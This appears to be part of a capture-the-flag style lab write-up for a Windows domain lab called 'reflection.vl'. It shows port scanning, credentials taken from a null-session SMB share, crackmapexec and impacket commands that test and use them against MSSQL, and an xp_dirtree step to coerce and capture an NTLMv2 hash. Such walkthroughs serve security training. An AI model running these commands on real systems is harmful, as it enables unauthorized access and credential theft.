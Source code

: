 ## WS01.reflection.vl

```bash
Host is up, received echo-reply ttl 127 (0.22s latency). 
Scanned at 2023-08-13 21:52:56 PKT for 264s
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON          VERSION
135/tcp  open  tcpwrapped syn-ack ttl 127
445/tcp  open  tcpwrapped syn-ack ttl 127
3389/tcp open  tcpwrapped syn-ack ttl 127
| ssl-cert: Subject: commonName=ws01.reflection.vl
```

## PORT 445 (SMB)

Enumerating the smb shares from the machines, we only get list of shares with null authentication on `MS01`

<img src="https://i.imgur.com/8xMhHye.png"/>
Accessing `staging` share we'll get `staging_db.conf` file having credentials

<img src="https://i.imgur.com/YNPGHmu.png"/>
With `crackmapexec` we can try to authenticate on smb to verify if these are valid credentials

```bash
cme smb hosts.txt -u 'web_staging' -p 'Washroom510'
```

<img src="https://i.imgur.com/rWFuxzH.png"/>

We can try authenticating over MSSQL as that service is running on DC01 and MS01

```bash
cme mssql hosts.txt -u 'web_staging' -p 'Washroom510' --local-auth
```

<img src="https://i.imgur.com/DLy7GsO.png"/>

We get a vaild login so we can proceed with using `mssqlclient.py` from impacket

```bash
mssqlclient.py web_staging:'Washroom510'@10.10.173.134
```

<img src="https://i.imgur.com/qrWt5us.png"/>

Since `xp_cmdshell` was not allowed for this user

<img src="https://i.imgur.com/uP6wZrX.png"/>

We can try using `xp_dirtree` to coerce the server to our machine in order to retrieve NTLMv2 hash of service account of mssql

<img src="https://i.imgur.com/sTvRfHF.png"/>
